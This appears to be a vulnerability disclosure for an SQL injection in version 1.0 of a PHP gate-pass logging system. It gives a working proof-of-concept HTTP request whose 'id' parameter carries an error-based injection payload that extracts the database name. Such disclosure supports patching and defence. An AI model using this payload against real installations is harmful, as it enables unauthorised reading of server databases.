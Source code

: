 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Users.php?f=delete

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via /employee_gatepass/classes/Users.php, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Users.php?f=delete HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 55
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=user/list
Cookie: PHPSESSID=q643apn08ggv5g81r5q8pocl6t
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

id=11' and updatexml(1,concat(0x7e,(database())),3)-- q
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/d7c84b54-5022-400a-8b8c-79ae1e8035a4)

## code analysis:

The id parameter in Users.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/8c34f811-da99-4eac-902f-97098c7eeb6e)


